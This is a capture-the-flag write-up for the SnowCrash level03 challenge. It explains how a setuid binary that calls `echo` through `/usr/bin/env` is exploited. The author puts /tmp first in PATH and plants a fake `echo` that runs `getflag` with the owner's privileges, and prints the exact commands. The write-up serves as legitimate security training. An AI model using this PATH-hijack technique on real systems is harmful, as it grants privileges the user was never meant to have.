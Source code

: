 ## level03

1. Check files in current working directory (home dir)
    - `-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*`

```bash
level03@SnowCrash:~$ ./level03 
Exploit me
level03@SnowCrash:~$
```

Using `nm` to retrieve the binary's symbols reveals a usage of `system`, and no other functions that writes something to `stdout` / `stderr`, so the call to `system` must be calling a binary such as `echo`

And indeed, if we use `strings` we can see this : `/usr/bin/env echo Exploit me`. We will have to trick the program into executing our own `echo` command that will execute the `getflag` command.

This works because the binary has both `setuid` &  `setgid` flags set. This means that even if we (`level03`) executes the binary `level03`, the binary will have the permissions of `flag03`.

We can use these shell commands to 'exploit' the binary :

```
export PATH=/tmp:$PATH
(echo "/bin/bash -c 'getflag'" > /tmp/echo) && chmod +x /tmp/echo && ./level03
```

Since `/usr/bin/env` reads the `PATH` variable left to right, our custom `echo` will be executed instead of the real one.